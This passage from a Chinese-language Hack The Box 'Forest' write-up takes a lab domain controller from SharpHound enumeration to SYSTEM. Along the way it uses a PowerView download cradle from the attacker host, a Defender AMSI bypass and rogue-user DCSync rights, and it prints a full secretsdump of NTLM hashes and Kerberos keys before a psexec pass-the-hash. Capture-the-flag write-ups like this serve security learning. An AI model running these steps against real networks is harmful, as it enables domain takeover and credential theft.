System.DirectoryServices.Protocols.DirectoryOperationException: The object does not exist.
   at System.DirectoryServices.Protocols.LdapConnection.ConstructResponse(Int32 messageId, LdapOperation operation, ResultAll resultType, TimeSpan requestTimeOut, Boolean exceptionOnTimeOut)
   at System.DirectoryServices.Protocols.LdapConnection.SendRequest(DirectoryRequest request, TimeSpan requestTimeout)
   at SharpHoundCommonLib.LDAPUtils.<QueryLDAP>d__40.MoveNext()
2024-07-17T23:49:49.7588655-07:00|ERROR|[CommonLib DCRegProc]Error getting data from registry for FOREST.HTB.LOCAL: SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel:CertificateMappingMethods
System.Security.SecurityException: Requested registry access is not allowed.
   at System.ThrowHelper.ThrowSecurityException(ExceptionResource resource)
   at Microsoft.Win32.RegistryKey.OpenSubKey(String name, Boolean writable)
   at SharpHoundCommonLib.SHRegistryKey.GetValue(String subkey, String name)
   at SharpHoundCommonLib.Helpers.GetRegistryKeyData(String target, String subkey, String subvalue, ILogger log)
The Zone of the assembly that failed was:
MyComputer
2024-07-17T23:49:49.7588655-07:00|WARNING|[CommonLib LDAPUtils]Exception in LDAP loop for (objectclass=*) and HTB.LOCAL
System.DirectoryServices.Protocols.DirectoryOperationException: The object does not exist.
   at System.DirectoryServices.Protocols.LdapConnection.ConstructResponse(Int32 messageId, LdapOperation operation, ResultAll resultType, TimeSpan requestTimeOut, Boolean exceptionOnTimeOut)
   at System.DirectoryServices.Protocols.LdapConnection.SendRequest(DirectoryRequest request, TimeSpan requestTimeout)
   at SharpHoundCommonLib.LDAPUtils.<QueryLDAP>d__40.MoveNext()
2024-07-17T23:49:49.7744906-07:00|ERROR|[CommonLib DCRegProc]Error getting data from registry for FOREST.HTB.LOCAL: SYSTEM\CurrentControlSet\Services\Kdc:StrongCertificateBindingEnforcement
System.Security.SecurityException: Requested registry access is not allowed.
   at System.ThrowHelper.ThrowSecurityException(ExceptionResource resource)
   at Microsoft.Win32.RegistryKey.OpenSubKey(String name, Boolean writable)
   at SharpHoundCommonLib.SHRegistryKey.GetValue(String subkey, String name)
   at SharpHoundCommonLib.Helpers.GetRegistryKeyData(String target, String subkey, String subvalue, ILogger log)
The Zone of the assembly that failed was:
MyComputer
2024-07-17T23:49:49.8838688-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2024-07-17T23:49:49.8994912-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2024-07-17T23:49:50.0088653-07:00|INFORMATION|Status: 475 objects finished (+475 10.55556)/s -- Using 49 MB RAM
2024-07-17T23:49:50.0088653-07:00|INFORMATION|Enumeration finished in 00:00:45.5961735
2024-07-17T23:49:50.0713697-07:00|INFORMATION|Saving cache with stats: 412 ID to type mappings.
 412 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-07-17T23:49:50.1026173-07:00|INFORMATION|SharpHound Enumeration Completed at 11:49 PM on 7/17/2024! Happy Graphing!
```

> *Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ./SharpHound.exe -c all

```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.161,61744)
[*] AUTHENTICATE_MESSAGE (\,FOREST)
[*] User FOREST\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:KALI)
[*] Closing down connection (10.10.10.161,61744)
```

> ┌──(root㉿kali)-[/home/kali/Desktop]
> └─# sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .

开启一个`smb`获取`SharpHound.exe`生成的压缩包

> *Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> copy 20240717234949_BloodHound.zip \\10.10.16.24\kali\20240717234949_BloodHound.zip

用`bloodhound`分析,标记`svc-alfresco`为已取得的主机

创建一个新用户`test123`

`net user test123 test123! /add /domain`

添加权限

`net group 'Exchange Windows Permissions' test123 /add /domain`

`net localgroup 'Remote Management Users' test123 /add`

```shell
   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers

[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```

> *Evil-WinRM* PS C:\Users\test123\Documents> menu

```shell
                                        
Info: Patching 4MSI, please be patient...
                                        
[+] Success!

```

> *Evil-WinRM* PS C:\Users\test123\Documents> Bypass-4MSI

执行`Bypass-4MSI`绕过`Windows defend`

上传[`PowerView.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1),并且存入当前会话

> *Evil-WinRM* PS C:\Users\test123\Documents> iex(new-object net.webclient).downloadstring('http://10.10.16.24:8000/PowerView.ps1')

`$pass = convertto-securestring 'test123!' -AsPlainText -Force`

`$cred = new-object system.management.automation.pscredential('htb\test123',$pass)`

`Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync`

```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
test123:9601:aad3b435b51404eeaad3b435b51404ee:d25ecd13fddbb542d2e16da4f9e0333d:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:23a7dc0278cf82d4f5d8b46194bc0c54:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
test123:aes256-cts-hmac-sha1-96:4d5f9a5a67552c420bd3c1fee1f53645f38ddb7f00a0f72a267d33f9e5098c66
test123:aes128-cts-hmac-sha1-96:18eabb2c6602bc05cbdb5835a2bf79cd
test123:des-cbc-md5:32f4b5f49b624592
FOREST$:aes256-cts-hmac-sha1-96:af8c0adf8f0da4e5719d4a898ec268fa4a17dd51a75706af91e2f0da42d1a742
FOREST$:aes128-cts-hmac-sha1-96:bf0a1ffd9bcc279593af5825a05f286e
FOREST$:des-cbc-md5:c8132fbf73c71fa8
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```

> ┌──(kali㉿kali)-[~]
> └─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py 'test123:test123!@10.10.10.161'

```powershell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file HnnkFkEz.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service QuVl on 10.10.10.161.....
[*] Starting service QuVl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

> ┌──(kali㉿kali)-[~]
> └─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py "administrator"@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

```
C:\Windows\system32> type C:\users\administrator\desktop\root.txt
NTVmNTM5MmZhZDM1NmEwOTMyYmY2YWQyOGYwOWNjYjU=
```

***get root flag!***

[^1]:`-H`:指定LDAP服务器地址;`-x`：使用简单认证;`-s base`：指定搜索范围为基底对象（Base Object），这意味着搜索将仅在指定的DN上进行，而不是在DN的整个子树中;`namingContexts`：这是一个特定的属性，用来查询LDAP目录中的命名上下文。
[^2]:`-b`:指定用于搜素的基本专有名称 (dn)。环境中的 LDAP_BASEDN 是缺省值;命令结尾增加过滤条件
[^3]: 对于未启用预身份验证的用户帐户（基本上禁用了 Kerberos 预身份验证），它容易受到 AS-REP Roasting 攻击。我们可以在不提供任何身份验证的情况下请求该用户的 Kerberos TGT 票证，并且我们将取回的 TGT 票证将使用该帐户的密码进行加密。所以我们可以离线破解哈希值。使用Impacket的GetNPUsers.py脚本，我们可以进行攻击
[^4]:[https://book.hacktricks.xyz/v/cn/windows-hardening/active-directory-methodology/asreproast](https://book.hacktricks.xyz/v/cn/windows-hardening/active-directory-methodology/asreproast)
[^5]: https://github.com/BloodHoundAD/SharpHound/releases/tag/v2.4.1
